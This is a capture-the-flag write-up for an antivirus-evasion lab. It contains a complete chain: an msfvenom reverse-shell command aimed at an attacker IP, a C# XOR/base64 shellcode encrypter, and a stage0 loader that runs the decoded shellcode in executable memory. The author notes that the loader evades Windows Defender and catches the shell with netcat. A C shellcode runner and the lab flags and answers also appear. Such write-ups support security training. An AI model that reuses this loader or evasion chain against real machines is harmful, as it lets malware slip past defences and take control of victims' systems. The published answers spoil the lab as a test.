 # AV Evasion: Shellcode

### Challenge
- Which Antivirus software is running on the VM? `Windows Defender`
- What is the name of the user account to which you have access? <br />
First, on your attack box create a shellcode to execute a reverse shell on windows x64: `msfvenom LHOST=10.11.85.53 LPORT=9001 -p windows/x64/shell_reverse_tcp -f csharp`.<br />
Now compile the encoder program:

        using System;
        using System.Collections.Generic;
        using System.Linq;
        using System.Text;
        using System.Threading.Tasks;
        
        namespace Encrypter
        {
            internal class Program
            {
                private static byte[] xor(byte[] shell, byte[] KeyBytes)
                {
                    for (int i = 0; i < shell.Length; i++)
                    {
                        shell[i] ^= KeyBytes[i % KeyBytes.Length];
                    }
                    return shell;
                }
                static void Main(string[] args)
                {
                    //XOR Key - It has to be the same in the Droppr for Decrypting
                    string key = "THMK3y123!";
        
                    //Convert Key into bytes
                    byte[] keyBytes = Encoding.ASCII.GetBytes(key);
        
                    //Original Shellcode here (csharp format)
                    byte[] buf = new byte[460] {0xfc,0x48,.....0xc0,0xd5};
        
                    //XORing byte by byte and saving into a new array of bytes
                    byte[] encoded = xor(buf, keyBytes);
                    Console.WriteLine(Convert.ToBase64String(encoded));        
                }
            }
        }
Rembember to replace your shellcode inside the variable "buf". Now copy it into the windows machine and compile it using CMD: `csc.exe challenge.c`.
![image](https://github.com/user-attachments/assets/695c3ea7-8523-43d7-a7b9-b03edc78c316)<br />
Now run the encryptor to get the encrypted shellcode. The encryptor first XORs the shellcode with a given key and then encodes it in base64: <br />
![image](https://github.com/user-attachments/assets/0547a87f-6634-407a-9c94-1996274f4c21)<br />
Now we need to create the stage0. So take the following code: 

    using System;
    using System.Net;
    using System.Text;
    using System.Runtime.InteropServices;
    
    public class Program {
      [DllImport("kernel32")]
      private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
    
      [DllImport("kernel32")]
      private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
    
      [DllImport("kernel32")]
      private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    
      private static UInt32 MEM_COMMIT = 0x1000;
      private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
      
      private static byte[] xor(byte[] shell, byte[] KeyBytes)
            {
                for (int i = 0; i < shell.Length; i++)
                {
                    shell[i] ^= KeyBytes[i % KeyBytes.Length];
                }
                return shell;
            }
      public static void Main()
      {
    
        string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
        byte[] data = Convert.FromBase64String(dataBS64);
    
        string key = "THMK3y123!";
        //Convert Key into bytes
        byte[] keyBytes = Encoding.ASCII.GetBytes(key);
    
        byte[] encoded = xor(data, keyBytes);
    
        UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);
    
        IntPtr threadHandle = IntPtr.Zero;
        UInt32 threadId = 0;
        IntPtr parameter = IntPtr.Zero;
        threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);
    
        WaitForSingleObject(threadHandle, 0xFFFFFFFF);
    
      }
    }
And put your encrypted shellcode inside the variable `dataBS64`. Now compile it: <br />
![image](https://github.com/user-attachments/assets/152b9391-3949-41a6-8ab6-ad47746e7acf)<br />
If I upload it on the scanner: <br />
![image](https://github.com/user-attachments/assets/140156da-cba0-4bf2-8a5b-580b19885c0b)<br />
It's labled as not malicious!. So now it's time to get the reverse shell. Open a netcat listener (in my case I used port 9001): `nc -lnvp 9001`. And now just execute the payload! <br />
![image](https://github.com/user-attachments/assets/96ee1727-6906-49e3-807f-f8559920ecb1)<br />
It works correctly. Now to get higher access permissions, we upload it in the antivirus check service and wait for it to execute it. <br />
![image](https://github.com/user-attachments/assets/d2ef0892-20da-4c3b-bad4-569a750ab7ec)<br />
We are now the user `av-victim`. 

- Establish a working shell on the victim machine and read the file on the user's desktop. What is the flag?<br />
This is the flag on the Desktop: <br />
![image](https://github.com/user-attachments/assets/b4045c41-e875-4454-a5db-8ee869839daa)<br />
`THM{H3ll0-W1nD0ws-Def3nd3r!}`

### PE Structure
- What is the last 6 digits of the MD5 hash value of the thm-intro2PE.exe file?<br />
![image](https://github.com/user-attachments/assets/bd099143-dbfb-4688-af72-5326f2ee28df)<br />
`530949`
- What is the Magic number value of the thm-intro2PE.exe file (in Hex)?<br />
![image](https://github.com/user-attachments/assets/2d3409ba-544e-4dd2-9a8e-826088963def)<br />
`5A4D`
- What is the Entry Point value of the thm-intro2PE.exe file?<br />
![image](https://github.com/user-attachments/assets/c679d67f-f812-4e09-ad3b-a1299ca55391)<br />
`12E4`
- How many Sections does the thm-intro2PE.exe file have?<br />
![image](https://github.com/user-attachments/assets/54ffa4ff-c7a3-4d41-838f-87a4b452bb3f)<br />
`7`
- A custom section could be used to store extra data. Malware developers use this technique to create a new section that contains their malicious code and hijack the flow of the program to jump and execute the content of the new section. What is the name of the extra section?<br />
`.flag`
- Check the content of the extra section. What is the flag?<br />
Right click on the virtual address and select "Follow RVA 23000": <br />
![image](https://github.com/user-attachments/assets/7a565c43-7732-4925-9b46-db57cc169184)<br />
`THM{PE-N3w-s3ction!}`

### Introduction to Shellcode
- Modify your C program to execute the following shellcode. What is the flag?<br />
On a linux machine take the following code:

      #include <stdio.h>
      
      int main(int argc, char **argv) {
          unsigned char message[] = {
        0xeb, 0x34, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x5e, 0x48, 0x89, 0xf0, 0x80,
        0x34, 0x08, 0x01, 0x48, 0x83, 0xc1, 0x01, 0x48, 0x83, 0xf9, 0x19, 0x75,
        0xf2, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00, 0xba,
        0x19, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00, 0x00, 0xbf,
        0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xc7, 0xff, 0xff, 0xff, 0x55,
        0x49, 0x4c, 0x7a, 0x78, 0x31, 0x74, 0x73, 0x2c, 0x30, 0x72, 0x36, 0x2c,
        0x34, 0x69, 0x32, 0x30, 0x30, 0x62, 0x31, 0x65, 0x32, 0x7c, 0x0d, 0x0a
      };
          
          (*(void(*)())message)();
          return 0;
      }
And compile it with `gcc -z execstack task4.c -o task4`:<br />
![image](https://github.com/user-attachments/assets/4b46f899-c7b2-459c-bfbb-58fe168c4170)<br />
`THM{y0ur-1s7-5h311c0d3}`

### Staged Payloads
- Do staged payloads deliver the full content of our payload in a single package? (yea/nay) `nay`
- Is the Metasploit payload windows/x64/meterpreter_reverse_https a staged payload? (yea/nay) `nay`
- Is the Metasploit payload windows/x64/meterpreter_reverse_https a staged payload? (yea/nay) `yea`

### Introduction to Encoding and Encryption
- Is encoding shellcode only enough to evade Antivirus software? (yea/nay) `nay`
- Do encoding techniques use a key to encode strings or files? (yea/nay) `nay`
- Do encryption algorithms use a key to encrypt strings or files? (yea/nay) `yea`

### Packers
- Will packers help you obfuscate your malicious code to bypass AV solutions? (yea/nay) `yea`
- Will packers often unpack the original code in-memory before running it? (yea/nay) `yea`
- Are some packers detected as malicious by some AV solutions? (yea/nay) `yea`

### Binders
- Will a binder help with bypassing AV solutions? (yea/nay) `nay`
- Can a binder be used to make a payload appear as a legitimate executable? (yea/nay) `yea`
